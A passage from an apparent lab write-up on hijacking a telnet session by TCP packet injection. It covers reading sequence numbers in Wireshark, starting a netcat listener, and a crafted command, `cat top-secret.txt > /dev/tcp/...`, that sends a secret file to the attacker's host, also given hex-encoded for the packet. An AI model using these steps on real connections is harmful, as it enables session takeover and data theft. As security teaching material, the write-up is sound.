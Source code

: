 The host (10.2.1.5) connects to the server using telnet. The goal of the attacker is to read the contents of a _top secret_ file in the server by hijacking the already established connection.

In order to obtain the sequence number of the connection, we will use again Wireshark to monitor the traffic.

![image](https://user-images.githubusercontent.com/7012176/73144039-ae87af80-40a9-11ea-8acf-2ce95ec55f54.png)

We can see here the sequence number of the packets originating from our client and by pressing a key we can see that the next sequence number is included in the legit packet, so we can easily create our own malicious packet.

![image](https://user-images.githubusercontent.com/7012176/73144057-ef7fc400-40a9-11ea-8e2d-3caaf56b2da8.png)

So, by intercepting the traffic, we managed to learn the five characteristics of the traffic we need to know. The source ip and port, the destination ip and port and the next sequence number.

Although the attacker can inject his own packets in the connection, cannot listen for the responses because they will arrive on the original client. To see the results of the executed command, we need to send the output to the machine of the attacker.

The program `netcat` allows us to create a simple TCP server on a specified port that we will use to listen for responses. We launch a server by running this command

```bash
nc -l -p 1940
```

Now, the attacker is listening for connections on port **1940** on all interfaces. We can verify this by connecting on that port using a different machine, but again we use `netcat`

```bash
user@client:~$ nc 10.2.1.13 1940
Hello from host
```

and on the attacker we will see the same as the output

```bash
user@attacker:~$ nc -l -p 1940
Hello from host
```

Also, we can use a special file in the `/dev` folder called tcp. If we redirect the output of a command to `/dev/tcp/10.2.1.13/1940`, the operating system will open a connection to IP 10.2.1.13 at the port 1940 and send the output of the command through this connection.

After we decided which command we want to execute, we need to convert it before sending it to a hex string. We can use Python to do this or any online converter. So, the command

```bash

cat top-secret.txt > /dev/tcp/10.2.1.13/1940

```

becomes **0a63617420746f702d7365637265742e747874203e202f6465762f7463702f31302e322e312e31332f313934300a0d** and this will be the data of the packet we will craft.
